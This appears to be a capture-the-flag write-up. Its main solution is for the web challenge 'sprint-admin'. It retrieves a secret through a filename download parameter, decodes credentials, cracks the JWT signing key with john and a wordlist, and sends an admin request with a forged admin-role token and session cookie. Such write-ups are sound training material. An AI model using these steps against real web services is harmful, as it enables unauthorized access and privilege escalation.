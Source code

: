 # Solution

View source at `/login`

Flag: `CTF{L0g1n_M4st3r_2025}`
---

---
Category: Web
Challenge Name: sprint-admin

# Solution

Grab the secret at `/download?filename=secret`

Decode the multi-base64 strings in it and obtain the creds for `KevinM`

```
POST /login HTTP/1.1


username=KevinM&password=%5E32i6%3BxqOFYkqg%24l%3Dwq%5E8-%3FjO%5ESIpT
```

`jwt` token created, bruteforce the key using the provided `secrets.txt` file

```
john jwt.txt --wordlist=secrets.txt --format=HMAC-SHA256 
```

```
GET /admin HTTP/1.1
Host: 188.245.212.74:10037
Referer: http://188.245.212.74:10037/login
Cookie: connect.sid=s%3AqkgniFDpwODBvegOBjGQOYONDJSF8nP_.UBvyrwUAWyLhoOrF75C2mubG4H9mMRVLR%2Bi0zmTVFMI; token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IktldmluTSIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTc0MjYzNDM1NiwiZXhwIjoxNzQyNjM3OTU2fQ.GPdFBwU0ukjmF-fQMSPXJVHJQFhsS6QHaj1yKfGOSK0
```

Flag: `ping{Spr1n7_T3ch_@dm1n_fl@G}`

Solved by: yappare